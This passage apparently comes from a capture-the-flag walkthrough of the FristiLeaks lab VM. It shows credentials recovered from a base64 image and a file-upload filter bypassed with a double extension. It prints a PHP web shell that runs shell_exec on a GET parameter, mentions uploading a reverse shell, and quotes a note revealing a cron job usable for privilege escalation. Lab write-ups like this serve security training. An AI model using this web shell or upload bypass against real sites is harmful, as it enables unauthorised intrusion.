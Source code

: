 ~~~html
ul9iMrFG9gqa/VTB8qORLuSTqF7fYU7tgsn/4+zfhV6aiiIsczlGrGvGTIlsLLhiPbnh6KnLDU12q
mD+0cKQ8nunpVcZ21Rj7erEz0WqoZ+5IRW1oXNB3Z/vBMWulSfYlm+hDLkcIAtuHEUzu/l9l867X34
rPtA6lmLi0ZrqX6gu37aIukRkVaylRfqpk+9HNkH85hNocTKC4P31Vebhd8fy/VzOTCkqeBWlrrFhe
EPdMjO3SSys7XVF+qmT5UcmT9+Ss//fyyOLU3kWoGLd59ZKb6Us10IZMjAP5b5AgAL3IEgBc5AsCLH
AHgRY4A8CJHAHiRIwC8yBEAXuQIAC9yBIAXOQLAixwB4EWOAPAiRwB4kSMAvMgRAF7kCAAvcgSAFzk
CwIscAeBFjgDwIkcAeJEjALzIEQBe5AgAL3IEgBc5AsCLHAHgRY4A8Pn9/QNa7zik1qtycQAAAABJR
U5ErkJggg=="></center><br>
~~~

Open the HTML file in a browser. We'll se an image displaying this string.

~~~
keKkeKKeKKeKkEkkEk
~~~

So this is our web login credentials.

~~~
eezeepz:keKkeKKeKKeKkEkkEk
~~~

### File Uploader

After logging in, we'll find a file uploader. It claims to only accept `png`, `jpg`, and `gif` image files. But we can upload files of other extensions by adding `.png`, `.jpg`, or `.gif` at the end of the filename. Uploaded files will be available on `/fristi/uploads` directory.

I tried uploading a PHP file named `shell.php.jpg`. Here's the content of the file.

~~~php
<pre>
<?php
  echo shell_exec($_GET['cmd']);
?>
</pre>
~~~

If I open `/fristi/uploads/shell.php.jpg`, it is displayed as a web page instead of an image. I can run shell commands from the `cmd` parameter. Running `whoami` will show us that we have the privilege of a user named apache.

### Reverse Shells

I decided to upload [php-reverse-shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) to the site with `netcat` listening on my host. Then I browsed the files and found that `/home/eezeepz` is accessible.

On `/home/eezeepz`, there's a file called `note.txt`.

~~~
Yo EZ,

I made it possible for you to do some automated checks, 
but I did only allow you access to /usr/bin/* system binaries. I did
however copy a few extra often needed commands to my 
homedir: chmod, df, cat, echo, ps, grep, egrep so you can use those
from /home/admin/

Don't forget to specify the full path for each binary!

Just put a file called "runthis" in /tmp/, each line one command. The 
output goes to the file "cronresult" in /tmp/. It should 
run every minute with my account privileges.

- Jerry
~~~
